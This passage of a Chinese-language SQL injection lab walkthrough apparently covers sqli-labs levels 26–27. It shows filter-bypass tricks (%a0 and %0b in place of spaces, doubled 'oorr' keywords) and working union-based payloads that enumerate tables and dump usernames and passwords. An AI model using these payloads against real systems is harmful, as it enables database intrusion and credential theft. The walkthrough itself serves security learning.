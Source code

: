 %0d  return 功能 

%0b  TAB 键（垂直） 

%a0  空格

##### 输入点：

payload:`?id=1'%a0oorrder%a0by%a03%a0oorr '1'`,回显如下。

![image-20201115151616239](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114733.png)

payload：`?id=1')%a0oorrder%a0by%a03%a0oorr ('1`回显如下。所以对id做了('id')处理。但是由于注释符被过滤了。于是需要使用or 语句来注释闭合即 select * from XXX where ('id=1') or ('1')

![image-20201115151632936](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114734.png)

##### 输出点：

payload:`?id=100')union%0bselect%a01,2,3||('1`回显如下。所以1,2为输出点

![image-20201115151829917](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114735.png)

##### 注入方式

使用%a0替代空格，|| 或oorr来替换or。再使用union来联合注入

##### 注入步骤

- 判断列数`payload:	` 4的时候页面回显报错，所以判断出列数为3列(通过select来判断)
- 联合查询，判断各列输出的位置`payload:?id=100')%a0union%a0select%a01,2,3||(%271`
- 获取数据库`payload:?id=100')union%a0select%a01,database(),3||('1`
- 爆数据表`payload:?id=100')%a0union%a0select%a01,(select%a0group_concat(table_name)%a0from%a0infoorrmation_schema.tables%a0where%a0table_schema=database()),3%a0||('1`
- 爆users表的数据字段`payload：?id=100')%a0union%a0select%a01,(select%a0group_concat(column_name)%a0from%a0infoorrmation_schema.columns%a0where%a0table_name='users'),3%a0||('1`
- 在爆出的字段中里面看到了password和username，于是爆数据`?id=')union%0bselect%0b1,group_concat(username,0x7e,passwoorrd),3%a0from%0busers%a0where%a0('1`username和password中间使用~来分隔

## less-27

##### 注入类型

该题对单引号，union，select和less-26的过滤的字符做了过滤 对id做的是'id'处理

##### 输入点：

payload:`?id=1'`,回显如下。

![image-20201115152701753](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114736.png)

payload：`?id=0'/*%0a*/||/*%0a*/'1`回显如下。所以对id做了'id'处理。但是由于注释符被过滤了。于是需要使用or 语句来注释闭合即 select * from XXX where 'id=1' or '1'

![image-20201115153747868](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114737.png)
